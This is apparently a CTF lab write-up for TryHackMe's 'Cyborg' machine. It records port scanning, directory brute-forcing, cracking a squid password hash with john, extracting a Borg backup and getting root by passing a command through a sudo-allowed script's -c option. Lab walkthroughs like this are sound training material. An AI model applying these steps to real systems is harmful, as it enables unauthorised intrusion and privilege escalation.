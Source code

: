 # Info
## IP = $IP

## creds
- music_archive:squidward
- alex:S3cretP@s3

# Ports

## Port Scanning

```
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
2008/tcp filtered conf
3128/tcp closed squid-http
```

## 80

### `gobuster`

```
/admin                (Status: 301) [Size: 314] [--> http://$IP/admin/]                                                                         
/etc                  (Status: 301) [Size: 312] [--> http://$IP/etc/]                                                                           
/index.html           (Status: 200) [Size: 11321]
```

### _/admin_

### _/etc_

- /squid/passwd
- /squid/squid.conf

### john
```
┌──(kali㉿kali)-[~/Desktop/CTFs/tryhackme/Cyborg]
└─$ john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
squidward        (music_archive) 
```

### _tar_  the file gotten in the site

### checking _README_ file

```
This is a Borg Backup repository.
See https://borgbackup.readthedocs.io/
```

### using _borg_ to get the alex home directory

```
┌──(kali㉿kali)-[~/Desktop/CTFs/tryhackme/Cyborg]
└─$ borg extract ~/Desktop/CTFs/tryhackme/Cyborg/home/field/dev/final_archive::music_archive

Enter passphrase for key /home/kali/Desktop/CTFs/tryhackme/Cyborg/home/field/dev/final_archive:
```

### checking _Documents_ folder, the credentials appear

## 22

### using _alex_ creds


# PrivEsc

### checking _user.txt_

- `flag{XXXX}`

### `sudo -l`

```
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

### the file has the following part:

```
while getopts c: flag
do
        case "${flag}" in 
                c) command=${OPTARG};;
        esac
done
```

### so, if I use the parameter _-c_, I can execute any command as root:

```
alex@ubuntu:/etc/mp3backups$ sudo ./backup.sh  -c "cat /root/root.txt"
/home/alex/Music/image12.mp3
/home/alex/Music/image7.mp3
/home/alex/Music/image1.mp3
/home/alex/Music/image10.mp3
/home/alex/Music/image5.mp3
/home/alex/Music/image4.mp3
/home/alex/Music/image3.mp3
/home/alex/Music/image6.mp3
/home/alex/Music/image8.mp3
/home/alex/Music/image9.mp3
/home/alex/Music/image11.mp3
/home/alex/Music/image2.mp3
find: ‘/run/user/108/gvfs’: Permission denied
Backing up /home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3 to /etc/mp3backups//ubuntu-scheduled.tgz

tar: Removing leading `/' from member names
tar: /home/alex/Music/song1.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song2.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song3.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song4.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song5.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song6.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song7.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song8.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song9.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song10.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song11.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song12.mp3: Cannot stat: No such file or directory
tar: Exiting with failure status due to previous errors

Backup finished
$IP{XXXX}
```



